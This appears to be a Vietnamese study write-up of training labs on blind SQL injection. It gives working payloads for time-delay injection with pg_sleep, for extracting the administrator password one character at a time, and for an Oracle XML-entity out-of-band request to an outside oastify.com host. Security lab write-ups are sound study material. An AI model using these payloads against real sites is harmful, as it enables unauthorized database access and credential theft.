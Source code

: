  ![alt text](image-61.png)
### Lab: Blind SQL injection with time delays
Nhiệm vụ của bài lab: Thực hiện tấn công SQL Injection mù. Trong trường hợp này, response của SQL không trả về tác động 1 phần khác trong web hoặc không hiện lỗi SQL trên response trả về. Trong bài lab này, cần inject câu lệnh SQL để có time delay.
Để thực hiện bài lab này, ta chỉ cần chèn thêm payload: '||pg_sleep(10)--
Lab: Blind SQL injection with time delays and information retrieval
Nhiệm vụ của bài lab: Thực hiện tấn công SQL Injection mù. Trong trường hợp này, response của SQL không trả về tác động 1 phần khác trong web hoặc không hiện lỗi SQL trên response trả về. Trong bài lab này, cần inject câu lệnh SQL để có time delay để qua đó lấy được username, password từ bảng users với username = administrator
'||SELECT CASE WHEN ((SELECT SUBSTRING(password,1,1))='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users where username='administrator'--
'|| (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) –
Lab: Blind SQL injection with out-of-band interaction
Nhiệm vụ của bài lab: Thực hiện tấn công SQL Injection mù. Trong trường hợp này, response của SQL không trả về tác động 1 phần khác trong web hoặc không hiện lỗi SQL trên response trả về, cũng không thể inject câu lệnh SQL để có time delay. Trong trường hợp này, cần bám vào các vấn đề liên quan đến mạng, cụ thể là DNS. 
||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http:// vnmy5l8nygywvu3m38dqyyr8tzzqngb5.oastify.com/"> %remote;]>'),'/l') FROM dual)--












 



